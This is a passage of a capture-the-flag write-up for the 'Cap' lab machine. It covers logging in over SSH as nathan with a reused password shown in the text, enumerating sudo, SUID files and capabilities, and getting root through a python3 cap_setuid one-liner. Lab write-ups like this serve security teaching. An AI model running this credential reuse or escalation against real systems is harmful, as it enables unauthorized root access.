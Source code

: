 ## User shell
Trying password reuse, we can try to login through ssh as `nathan`:
```shell
❯ ssh nathan@10.10.10.245
nathan@10.10.10.245\'s password: # Buck3tH4TF0RM3!
nathan@cap:~$ hostname -I
10.10.10.245 dead:beef::250:56ff:feb9:7787
```
We obtained a user shell as `nathan`.

## Privilege escalation
First, let's see if there are other users we need to pivot to:
```shell

```
As they aren't, we can try enumerating `nathan`'s root permits:
```shell
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```
But nathan is not in the sudoers group. So we could try to enumerate `suid` permissions and `setuid` capabilities:
```shell
# SUID files
nathan@cap:~$ find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
# Nothing exploitable
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2074/usr/lib/openssh/ssh-keysign
```
Capabilities enumeration:
```shell
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
As we can see `/usr/bin/python3.8` has `setuid` capability, and we can use it to obtain a root shell as:
```shell
nathan@cap:~$ python3 -c 'import os; import pty; os.setuid(0); pty.spawn("/bin/bash
")'
root@cap:~# hostname -I
10.10.10.245 dead:beef::250:56ff:feb9:7787
```